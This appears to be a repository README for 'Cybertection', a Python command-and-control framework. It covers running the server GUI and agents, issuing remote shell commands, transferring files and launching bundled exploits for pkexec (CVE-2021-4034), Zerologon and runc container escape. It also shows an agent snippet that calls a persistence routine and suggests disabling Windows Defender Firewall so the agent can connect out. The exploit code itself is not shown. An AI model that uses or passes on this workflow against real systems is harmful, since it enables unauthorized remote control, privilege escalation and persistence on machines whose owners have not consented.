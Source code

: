 # cybertection_server

Example Workflow
Kali Terminal 1: python3 cybertection_server.py.
Kali Terminal 2: python3 cybertection_agent.py.
GUI: Select agent, type whoami, click "Send"—see root.
Exploit: Choose "CVE-2021-4034," click "Run Exploit"—check output.
Log: Click "View Log," filter "cve" to review.
_______________________________________________________________________________________________________________

HOW TO USE


Copy and paste code in a text editor or ide

You must change the ipadress and port number in line 13.


Using the Framework
GUI Overview
Connected Agents: List of IPs/ports of active agents.
Output Area: Shows real-time logs (e.g., connections, command responses).
Command Input: Type commands to send to a selected agent.
Exploit Menu: Dropdown with exploits.
View Log: Opens a filterable log window.

Commands
Select an Agent:
Click an agent in the "Connected Agents" list (e.g., ('127.0.0.1', 54321)).

Send Basic Commands:
Type in "Command" box, click "Send":
whoami: Returns username (e.g., root on Kali).
ls (Linux) or dir (Windows): Lists directory contents.
cd /tmp: Changes directory (adjust for Windows, e.g., cd C:\Temp).
sysinfo: Shows OS and machine details.

File Transfer:
Upload: upload /path/to/file.txt (e.g., upload /home/kali/test.txt).
Download: download file.txt (saves as downloaded_file.txt on server).

Run Exploits:
Select exploit from dropdown, click "Run Exploit":
Elevate (Windows): Tries UAC elevation (Windows-only).
Inject (Windows): Simulates notepad injection (Windows-only).
CVE-2021-4034 (Linux): Escalates via pkexec (Kali, unpatched < Jan 2022).
CVE-2020-1472 (Zerologon - Windows): Resets DC password (needs impacket, DC setup).
CVE-2019-5736 (runc Escape - Linux): Container breakout (needs runc container).
Output appears in GUI and log.

View Logs:
Click "View Log".
Type in filter (e.g., "cve" to see exploit attempts).
Logs saved to cybertection_log.txt.
Exit:
Type exit in command box to disconnect an agent.
Close GUI to shut down server.
______________________________________________________________________________________________________
Troubleshooting [ERROR 111]
If you still see "Connection refused":

Server Not Listening:
netstat -tuln | grep 4444: No output means server didn’t bind.
Fix: Change port (e.g., port=5555 in both files), rerun.
Firewall:
sudo ufw status: If "inactive," use iptables -L and iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.
Wrong IP:
Same machine: Keep 127.0.0.1.
Remote: Use Kali’s IP (e.g., 192.168.1.100).
SSL:
Test without: Comment wrap_socket lines in both files, rerun.


If "Connection Refused" Persists

Port Conflict: Change port=4444 to 5555 in both files, update firewall.

Firewall: sudo iptables -L (if ufw off), allow 4444: sudo iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.

IP: If agent’s on Windows , use Kali’s IP, not 127.0.0.1.

SSL: Test without SSL (comment out wrap_socket lines in both).
___________________________________________________________________________________________________________
TROUBLESHOOTING

Why Commands Aren’t Sending
Agent Not Selected: The GUI requires selecting an agent from the "Connected Agents" list before sending works.
Command Queue Issue: The command_queue might not be updating or clearing properly.
Threading Lock: The handle_client thread might be stuck waiting for get_command_from_gui.
Socket Error: The client socket might’ve closed silently, breaking communication.
GUI Event: The "Send" button’s logic might not trigger correctly.
__________________________________________________________________________________________________________-

How to Run on Kali Linux
Prerequisites
Python: sudo apt install python3.
OpenSSL: sudo apt install openssl.
Tkinter: sudo apt install python3-tk.
Impacket: pip3 install impacket (for CVE-2020-1472).
GCC: sudo apt install build-essential (for CVE-2021-4034, CVE-2019-5736).

Steps
Generate SSL Certs:
Run server first: python3 cybertection_server.py.
Creates server.crt and server.key if missing.

Start Server:
python3 cybertection_server.py (GUI opens).
Check terminal: Should say "started on 0.0.0.0:4444".
Verify: netstat -tuln | grep 4444.

Allow Port:
sudo ufw allow 4444/tcp (if ufw is active; check with sudo ufw status).

Run Agent:
Same machine: python3 cybertection_agent.py (uses 127.0.0.1).
Different machine: Edit server_host to Kali’s IP (e.g., 192.168.1.100 via ifconfig), then run.

Debug Output:
Agent: Look for "Attempting connection" and "Connected!" or error details.
Server: Check log in GUI or cybertection_log.txt.
__________________________________________________________________________________________________________
Prerequisites
on Kali Linux:

Python 3: Should be pre-installed (python3 --version to check).
Tkinter: For the GUI—install with sudo apt install python3-tk.
OpenSSL: For SSL certs—install with sudo apt install openssl.
Impacket: For CVE-2020-1472—install with pip3 install impacket.
GCC: For CVE-2021-4034 and CVE-2019-5736—install with sudo apt install build-essential.
Net-tools: For netstat—install with sudo apt install net-tools.
_________________________________________________________________________________________________________

CONTINUED 
Running the Framework

Scenario 1: Server and Agent on Same Machine (Kali Linux)
Start the Server:
In a terminal:
bash
Wrap
Copy
python3 cybertection_server.py

GUI titled "Cybertection Server" opens.
Terminal shows: [2025-02-23 ...] Cybertection C2 Server started on 0.0.0.0:4444 (SSL).
Verify: netstat -tuln | grep 4444 (should show 0.0.0.0:4444 listening).
Start the Agent:
In a new terminal (same directory):
bash
Wrap
Copy
python3 cybertection_agent.py
Output:
text
Wrap
Copy
[*] Attempting connection to 127.0.0.1:4444
[+] Connected to Cybertection C2 at 127.0.0.1:4444 (SSL)

GUI: "Connected Agents" list shows ('127.0.0.1', <random_port>).


Scenario 2: Server on Kali, Agent Elsewhere (e.g., HP Envy Windows)
Find Kali’s IP:
ifconfig (or ip addr): Look for inet under your network interface (e.g., eth0 or wlan0), like 192.168.1.100.
Update Agent:
Edit cybertection_agent.py:
python
Wrap
Copy
if __name__ == "__main__":
    agent = CybertectionAgent(server_host="192.168.1.100")  # Replace with Kali’s IP
    threading.Thread(target=agent.run).start()
    agent.persist()

Copy server.crt to the agent machine’s directory (optional, since CERT_NONE is used).

Start Server on Kali:
Same as above: python3 cybertection_server.py.

Start Agent on Windows:
Install Python 3 on Windows (if not already): Download from python.org.
Run: python cybertection_agent.py.
Ensure Windows Firewall allows outbound to 4444 (or disable temporarily: Control Panel > Windows Defender Firewall > Turn off).
